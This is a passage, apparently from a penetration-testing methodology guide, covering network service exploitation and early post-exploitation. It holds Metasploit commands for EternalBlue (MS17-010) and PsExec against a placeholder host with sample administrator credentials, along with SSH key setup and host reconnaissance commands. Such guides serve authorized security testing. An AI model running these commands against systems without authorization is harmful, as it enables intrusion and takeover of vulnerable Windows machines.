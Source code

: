 ### 4.4 Network Service Exploitation

#### SSH
```bash
# SSH key authentication
ssh-keygen -t rsa -b 4096
ssh-copy-id user@target.com
ssh user@target.com -i ~/.ssh/id_rsa
```

#### SMB
```bash
# Eternal Blue (MS17-010)
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target.com
exploit

# PSExec
use exploit/windows/smb/psexec
set RHOSTS target.com
set SMBUser administrator
set SMBPass password
exploit
```

---

## Phase 5: Post-Exploitation

*Goal: Establish foothold and gather information*

### 5.1 Initial Access Verification

#### System Information
```bash
# Linux
whoami
id
uname -a
cat /etc/os-release
ps aux

# Windows
whoami
whoami /priv
systeminfo
tasklist
net user
```

### 5.2 Privilege Escalation
